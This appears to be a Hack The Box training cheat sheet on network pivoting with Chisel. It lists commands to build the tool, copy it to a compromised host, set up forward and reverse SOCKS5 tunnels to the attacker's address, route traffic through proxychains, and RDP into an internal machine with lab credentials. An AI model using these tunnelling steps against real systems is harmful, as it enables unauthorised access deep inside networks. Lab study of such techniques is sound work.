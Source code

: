 ```shell-session
AhmaDb0x@htb[/htb]$ git clone https://github.com/jpillora/chisel.git
```

```shell-session
AhmaDb0x@htb[/htb]$ cd chisel
go build
```
#### Transferring Chisel Binary to Pivot Host
```shell-session
AhmaDb0x@htb[/htb]$ scp chisel ubuntu@10.129.202.64:~/
```
#### Running the Chisel Server on the Pivot Host
```shell-session
ubuntu@WEB01:~$ ./chisel server -v -p 1234 --socks5
```
#### Connecting to the Chisel Server
```shell-session
AhmaDb0x@htb[/htb]$ ./chisel client -v 10.129.202.64:1234 socks
```
#### Editing & Confirming proxychains.conf
```shell-session
AhmaDb0x@htb[/htb]$ tail -f /etc/proxychains.conf 

#
#       proxy types: http, socks4, socks5
#        ( auth types supported: "basic"-http  "user/pass"-socks )
#
[ProxyList]
# add proxy here ...
# meanwile
# defaults set to "tor"
# socks4 	127.0.0.1 9050
socks5 127.0.0.1 1080
```
---
```shell-session
AhmaDb0x@htb[/htb]$ proxychains xfreerdp /v:172.16.5.19 /u:victor /p:pass@123
```

---
## Chisel Reverse Pivot
```shell-session
AhmaDb0x@htb[/htb]$ sudo ./chisel server --reverse -v -p 1234 --socks5
```

```shell-session
ubuntu@WEB01$ ./chisel client -v 10.10.15.81:1234 R:socks
```
#### Editing & Confirming proxychains.conf

```shell-session
socks5 127.0.0.1 1080 
```


```shell-session
AhmaDb0x@htb[/htb]$ proxychains xfreerdp /v:172.16.5.19 /u:victor /p:pass@123
```

